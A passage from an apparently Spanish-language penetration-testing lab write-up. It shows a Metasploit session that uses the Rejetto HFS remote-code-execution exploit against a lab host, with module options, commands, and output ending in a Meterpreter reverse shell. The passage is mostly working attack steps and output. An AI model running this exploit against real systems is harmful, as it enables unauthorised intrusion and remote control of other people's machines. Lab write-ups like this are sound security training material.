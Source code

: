 Vemos que si que hay. Seleccionamos la opción 3 `use 3` y vemos las opciones disponibles que hay para el exploit con `options`:

```bash
msf6 > use 3
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all
                                          addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.12     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic

```

En nuestro caso cambiamos el Remote Host `set rhost 10.0.2.141` y el puerto que utiliza el exploit para hacer la explotación `set srvport 8081`. Ejecutamos el exploit con `exploit` y si todo ha salido bien, obtenemos una sesión de `meterpreter`:

```bash
msf6 exploit(windows/http/rejetto_hfs_exec) > set rhosts 10.0.2.141
rhosts => 10.0.2.141
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvport 8081
srvport => 8081
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 192.168.1.12:4444 
[*] Using URL: http://192.168.1.12:8081/W4iYw9
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /W4iYw9
[*] Sending stage (176198 bytes) to 192.168.1.11
[!] Tried to delete %TEMP%\UnngBBbR.vbs, unknown result
[*] Meterpreter session 1 opened (192.168.1.12:4444 -> 192.168.1.11:62032) at 2024-06-23 15:32:58 +0200
```
